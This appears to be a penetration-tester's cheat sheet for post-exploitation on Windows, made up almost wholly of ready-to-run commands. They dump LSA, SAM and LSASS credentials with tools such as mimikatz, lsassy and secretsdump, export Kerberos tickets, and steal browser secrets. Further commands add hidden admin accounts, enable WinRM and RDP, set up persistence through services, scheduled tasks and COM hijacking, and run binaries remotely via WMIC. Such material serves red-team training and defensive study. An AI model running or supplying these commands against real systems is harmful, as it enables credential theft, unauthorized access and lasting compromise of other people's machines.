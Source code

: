 # Post-Ex Windows

## **Dump secrets**

### LSA

```bash
crackmapexec smb perim_up.txt -u '<user>' -d '<domain>' -p '<pass>' --lsa
```

### SAM
```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --sam

reg save hklm\sam .\sam reg save hklm\system .\system reg save hklm\security .\security 
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL

```
### LSASS 
```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> -M lsassy

lsassy -d '.' -u 'Administrateur' -H '<hash>' <ip>
lsassy -d <domain> -u <user> -p <pass> <ip>

./spraykatz.py -u <user> -p <password> -t <ip>

pypykatz lsa minidump lsass.dmp

procdump.exe --accepteula -ma lsass c:\WINDOWS\Temp\lsass.txt

.\mimikatz.exe "log" "privilege::debug" "sekurlsa::logonpasswords" exit
```

### Kerberos 

```bash
.\mimikatz.exe "log" "privilege::debug" "kerberos::list /export" exit

```

### Browser secrets

```bash
sharpchrome.exe
```

## Create/add new local admin account 

```bash
net user add <user> <pass>
net localgroup "Administrators" <user> /add
```

## Enable WinRM

```bash
Enable-PSRemoting -SkipNetworkProfileCheck -Force
```

## Enable RDP

```bash
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

add user to RDP group

```bash
net localgroup "Remote Desktop Users" <user> /add
```

## Create service

```bash
New-Service -BinaryPathName C:\Users\sqlServer\Documents\system2.exe -Name syshell -DisplayName syshell -StartupType Automatic 
Start-Service syshell
```
or 

```
sc \\127.0.0.1 create ServiceName binpath=C:\windows\system32\calc.exe
```
> \192.168.1.2 is optional


To check if service working well, you can reboot like this: 

`wmic /node:192.168.1.2 os get buildnumber` then 

`wmic /node:192.168.1.2 os where buildnumber="<Number>" call reboot` 


## Execute binary using WMIC

```
wmic /node:127.0.0.1 process call create "C:\windows\system32\calc.exe"
```
>/node is optional


## Stop processus

Run this to get processid : `sc \\127.0.0.1 query ServiceName` 

then : `wmic /node:127.0.0.1 process where processid=<PID> call terminate` 
>/node is optional

and then `taskkill /S 127.0.0.1 /PID <PID> /f`
>/S is optional


## Create Scheduled tasks

```
schtasks /create /S 192.156.1.2 /tn <name> /sc once /sd 01/01/1910 /ru system /tr “C:\windows\system32\calc.exe”

Other 

schtasks /create /S 127.0.0.1 /tn OBLIGE /tr "C:\windows\system32\calc.exe" /sc once /ST 18:30
```
> ru <user>, and /S is optional
> To check if tasks has been created run this `schtasks /s 192.156.1.2 /query /tn <name>`



## COM hijack

```bash
schtasks /query /xml > tasks.xml
reg query "HKCR\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKCU\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKLM\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"
reg export "HKLM\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32" export.reg

# Change to HKCU and change dll
reg import export.reg /reg:64
reg query "HKCR\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKCU\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"

```

## Disconnect User 

`rwinsta /server:192.168.1.2 <sessionId>`
>to get sessionId please run this `qwinsta` 

